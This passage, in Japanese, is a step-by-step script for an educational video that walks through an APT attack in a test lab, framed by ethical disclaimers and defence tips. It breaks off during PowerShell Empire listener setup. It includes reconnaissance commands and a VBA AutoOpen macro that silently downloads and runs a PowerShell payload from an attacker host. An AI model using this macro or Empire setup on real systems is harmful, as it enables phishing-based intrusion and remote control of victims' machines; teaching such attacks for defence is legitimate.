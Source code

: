 **攻撃手法の特徴**：
- **高度さ**：PowerShell Empireを使用し、検知されにくいメモリベースのペイロードを展開
- **教育性**：各ステップで攻撃者の意図と防御策を明確に解説

## ステップ・バイ・ステップの手順

### ステップ1：デモの目的と倫理的配慮の説明（動画冒頭）

- **目的**: APT攻撃のプロセスを理解し、防御策の重要性を伝える
- **説明**:
  - 「このデモは教育目的であり、許可されたテスト環境でのみ実施しています」
  - 「実際のシステムやネットワークでこれを行うことは違法です」
  - APT攻撃の概要（長期潜伏、ターゲット特化、組織的）を紹介
- **動画用の工夫**:
  - スライドや図でAPTライフサイクルを視覚化
  - 攻撃者と防御者の視点を強調
  - 例：スライドに「ハッカーの思考を理解して防御を強化！」と記載

### ステップ2：偵察（Reconnaissance）

- **目的**: ターゲット（Windows 10）の情報を収集
- **ツール**: Nmap、theHarvester
- **手順**:
  1. Kali Linuxでターミナルを開き、ターゲットのIPアドレスを確認（例：`192.168.1.100`）
  2. Nmapでポートスキャンを実行：
     ```bash
     nmap -sS -A 192.168.1.100
     ```
     - 解説：「開いているポート（例：445/SMB、3389/RDP）やOS情報を取得」
  3. theHarvesterでターゲットの公開情報を収集（模擬的にローカルデータを使用）：
     ```bash
     theharvester -d target.local -b all
     ```
     - 解説：「攻撃者は公開情報を悪用してフィッシングをカスタマイズ」
- **動画用の工夫**:
  - Nmapの出力を拡大表示し、開いているポートをハイライト
  - 「攻撃者はこの情報で攻撃計画を立てます」とナレーション
  - **防御策**：不要なポートの閉鎖、公開情報の最小化

### ステップ3：初期侵入（Initial Access）

- **目的**: フィッシングで侵入
- **ツール**: Social-Engineer Toolkit (SET)、PowerShell Empire
- **手順**:
  1. SETを起動：
     ```bash
     setoolkit
     ```
  2. 「Social-Engineering Attacks」→「Create a FileFormat Payload」を選択
  3. 悪意のあるマクロ付きWord文書を作成（例：VBAマクロでPowerShellペイロードを起動）
     - サンプルVBAコード（模擬）：
       ```vba
       Sub AutoOpen()
           Shell("powershell -w hidden -c Invoke-WebRequest -Uri http://[Kali_IP]/payload.ps1 -OutFile $env:temp\payload.ps1; powershell -ep bypass -f $env:temp\payload.ps1")
       End Sub
       ```
  4. PowerShell Empireを起動し、リスナーを設定：
     ```bash
     empire
     listeners
     uselistener http
     set Host http://[Kali_IP]:8080